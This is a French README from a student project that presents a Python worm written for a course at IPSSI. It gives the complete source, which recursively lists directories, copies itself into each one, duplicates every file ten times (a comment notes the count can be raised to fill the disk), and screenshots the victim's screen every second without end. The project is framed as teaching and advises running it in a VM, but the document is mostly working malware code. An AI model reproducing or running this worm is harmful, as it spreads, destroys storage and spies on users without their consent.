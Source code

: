 # Vers-Python-IPSSI
<!-- Image centrée -->

<div align="center">

![CAPTURE](https://zupimages.net/up/22/48/cf4u.png)

</div>

<!-- --------------------------- -->

**Vers-Python-IPSSI** a été réalisé dans le cadre pédagogique de l'IPSSI avec un projet sur 1,5 jours. 

>Un ver informatique est un logiciel malveillant qui se reproduit sur plusieurs ordinateurs en utilisant un réseau informatique comme Internet

# Prérequis
- Visual studio code

- Python3

- Connaissances basique / intermédiaire en Python

Il est recommandé d'exécuter ce programme dans un environnement virtuel, il est possible d'en mettre un en place à l'aide des logiciels suivants : 
- Virtualbox --> Sur une VM Windows / Linux
- VMWare workstation pro --> Sur une VM Windows / Linux
- ...

# Description du projet

### Dépendances

Le projet nécessite l'installation de dépendances Python, ces dernières sont disponibles dans le fichier ```requirements.txt```.

```
pip install -r requirements.txt
```

>Il sera également nécessaire de relancer l'interpréteur de code afin de prendre en compte l'installation.

### Architecture du projet 

Le projet repose sur 1 fichiers Python : 

- ```vers.pyw``` --> Qui contient le code du vers (exécutable avec un double clic comme un .EXE, pour tester)

### Fonctionnement du projet

Le projet déroule en plusieurs étapes :

1) Exécution du code par la victime

2) Le vers va alors **analyser le système** (répertoires / sous répertoires données )

3) Le vers **va alors se répliquer dans les répertoires cibles** de la victime

4) Le vers va prendre des screenshots chaques secondes et les stocker dans C:\Screenshots 


### Mise en réseau
Ce projet se déroule entièrement en **local**.

# Axes d'améliorations du code
Après la phase de réalisation du projet, le professeur nous a demandé une personnalisation du code afin d'améliorer ce dernier.

Pour ce projet, les améliorations suivantes ont été mises en place :

- [x] Chaque seconde, le vers va prendre des captures d'écran et les stocker dans C:\Screenshots ( pour besoins des tests, il est possible d'envoyer les screenshots sur un serveur distant)
- [x] &&&
- [x] &&&

# Mise en place de l'environement de travail

Il est conseillé, pour travailler dans de bonnes conditions, d’ouvrir un **répertoire de travail** ( sur le bureau ou autre ) sur Visual Studio Code

Une fois le répertoire créé, dans visual studio code il faut cliquer sur ```Fichier``` → ```Ouvrir le dossier```

Une fois cette étape réalisée il suffit d'importer les fichiers .py dans le répertoire de travail et l'exécution est désormait possible

# Explications sur le code

## Fonctions

Les fonctions sont toutes dans une classe, appelée ```Vers```, les fonctions en son sein permettent :
- Fonction ```__init__``` = d'initialiser le vers
  - De définir où commencer la recherche de répertoires (la valeur par défaut est définie sur le répertoire racine)
  - De donner la possibilité de transmettre une liste de répertoires cibles initiaux. Par défaut c'est une liste vide []
  - De définir le nombre d'instances que le ver créera pour chaque fichier existant dans un répertoire

- Fonction ```lister_repertoires``` = d'analyser le système
  - Cette partie va nous permettre d’accéder au contenu des répertoires spécifiés précédemment. C’est-à-dire tous les répertoires et sous-répertoires y contenu. 

- Fonction ```creation_vers``` = Permet de répliquer le ver dans les répertoires cibles.

- Fonction ```copier_fichiers_existants``` = Permet de dupliquer les fichiers le nombre de fois la valeur que nous avons de l'argument itération.

- Fonction ```create_directory``` = Permet de créer un répertoire dans le disque C:\ ( nécessite les droits d'admin )

- Fonction ```screenshots``` = Permet de prendre une capture d'écran toutes les secondes ( le time.sleep(1) permet de définir le nombre de secondes d'intervalles )

- Fonction ```start_vers``` = Permet d'appeler toutes les fonctions créées précédemment

```python
class Vers:
        #Initialisation 
        def __init__(classVers, path=None, repertoire_cible=None, replication=None):
            # Définit où commencer la recherche de répertoires (la valeur par défaut est définie sur le répertoire racine)
            if isinstance(path, type(None)):
                classVers.path="/"
            else:
                classVers.path = path
            # Possibilitée de transmettre une liste de répertoires cibles initiaux. Par défaut c'est une liste vide []
            if isinstance(repertoire_cible, type(None)):
                classVers.repertoire_cible=[]
            else:
                classVers.repertoire_cible = repertoire_cible
            # Définit le nombre d'instances que le ver créera pour chaque fichier existant dans un répertoire
            if isinstance(repertoire_cible, type(None)):
                classVers.replication = 10
            else:
                classVers.replication = replication

            # Prendre le chemin absolu
            classVers.own_path = os.path.realpath(__file__)
        # Cette fonction va nous permettre d’accéder au contenu des répertoires spécifiés précédemment. C’est-à-dire tous les répertoires et sous-répertoires y contenu. 
        def lister_repertoires(classVers, path):
            classVers.repertoire_cible.append(path)
            fichier_dans_le_repertoire = os.listdir(path)

            for file in fichier_dans_le_repertoire:
                # Évite les répertoires / fichiers cachés
                if not file.startswith('.'):
                    # Prends le PATH complet
                    path_absolu = os.path.join(path, file)
                    print(path_absolu)

                    if os.path.isdir(path_absolu):
                        classVers.lister_repertoires(path_absolu)
                    else:
                        pass
        #Fonction de création du vers
        # Permet de répliquer le ver dans les répertoires cibles.
        def creation_vers(classVers):
            for directory in classVers.repertoire_cible:
                destination = os.path.join(directory, "vers.py")
                # Copie le script dans le nouveau répertoire avec un noms similaires
                shutil.copyfile(classVers.own_path, destination)

        def copier_fichiers_existants(classVers):
            # La méthode suivante sera utilisée pour dupliquer les fichiers le nombre de fois la valeur que nous avons de l'argument itération. 
            # Il est possible de mettre un grand nombre pour que le disque dur soit plein.
            for directory in classVers.repertoire_cible:
                file_list_in_dir = os.listdir(directory)
                for file in file_list_in_dir:
                    abs_path = os.path.join(directory, file)
                    if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                        source = abs_path
                        for i in range(classVers.replication):
                            destination = os.path.join(directory,(file+str(i)))
                            shutil.copyfile(source, destination)
        #Créer un répertoire "Screenshot" dans C:\
        def create_directory(classVers):
            repertoire_parent = "C:\\"
            repertoire_a_creer = "Screenshots"
            classVers.fullpath_directory = os.path.join(repertoire_parent, repertoire_a_creer)
            if not os.path.exists(classVers.fullpath_directory):
                os.mkdir(classVers.fullpath_directory)
        #Captures saves dans le répertoire "Screenshot" dans C:\, incrémentées par 1
        def screenshots(classVers):
            i=0
            while True:
                screenshot = ImageGrab.grab()
                filename = (os.path.join(classVers.fullpath_directory, "Screenshot"+str(i+1)+".png"))
                screenshot.save(filename) 
                time.sleep(1)
                i=i+1
        #Fonction de lancement de toutes les fonctions du vers
        def start_vers(classVers):
            classVers.lister_repertoires(classVers.path)
            classVers.creation_vers()
            classVers.copier_fichiers_existants()
            classVers.create_directory()
            classVers.screenshots()

 ```

## Traitement

Cette partie permet de définir le PATH à attaquer et d'appeler la fonction qui lance toutes les fonctions sur le PATH donné.

```python
if __name__=="__main__":
    attack_directory = os.path.abspath(r"C:\Users\ADM_VM01\Desktop\TEST FOLDER")
    VersFinal = Vers(path=attack_directory)
    VersFinal.start_vers()
 ```

